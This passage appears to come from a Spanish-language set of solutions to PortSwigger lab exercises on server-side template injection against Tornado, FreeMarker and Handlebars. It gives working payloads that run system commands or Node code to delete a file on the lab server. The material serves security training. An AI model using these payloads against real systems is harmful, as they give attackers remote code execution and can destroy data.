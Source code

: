 #### Descripción:

La funcionalidad que permite cambiar el nombre mostrado en los comentarios realizados en los post setea la propiedad del usuario que se debe mostrar (por ejemplo user.name). Al mostrar un comentario, esto es evaluado de forma insegura por el template, siendo vulnerable a un server-side template injection (la web usa Tornado). Esto se puede verificar tomando dicha request, seteando el parámetro blog-post-author-display=user.name}}{{2\*6 y comprobando que en los comentarios se muestra el nombre junto con un 12 al final.

#### Solución:

1. Ir a My account y modificar el preferred name.
2. Repetir la request seteando el parámetro blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
3. Hacer un comentario en cualquier post.

### [Server-side template injection using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

#### Descripción:

Al editar un post vemos que se evalúan ciertas expresiones como ${product.price}. Además, la web está configurada en modo debug por lo que se puede escribir algo como ${variablenodeclarada} de manera que se produzca un error, siendo informados así del sistema de templates que se está usando. Con esto descubrimos que se trata de Freemaker de Java y podemos recurrir a la [documentación](https://freemarker.apache.org/docs/app_faq.html#faq_template_uploading_security) o al [post sobre dicho exploit](https://portswigger.net/research/server-side-template-injection).

#### Solución:

En la edición de un post insertar lo siguiente <#assign ex="freemarker.template.utility.Execute"?new()> \${ ex("rm /home/carlos/morale.txt") } y guardar.

### [Server-side template injection in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

#### Descripción:

Al ver un producto sin stock se muestra el mensaje de error correspondiente. Podemos insertar ?message={{7*7}} en la url para obtener un error y determinar que se trata de Handlebars de NodeJS. Realizando una búsqueda podemos encontrarnos con [este exploit](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs) y utilizar el mismo modificándolo para eliminar el archivo deseado:

```
wrtz{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('fs').unlinkSync('/home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
```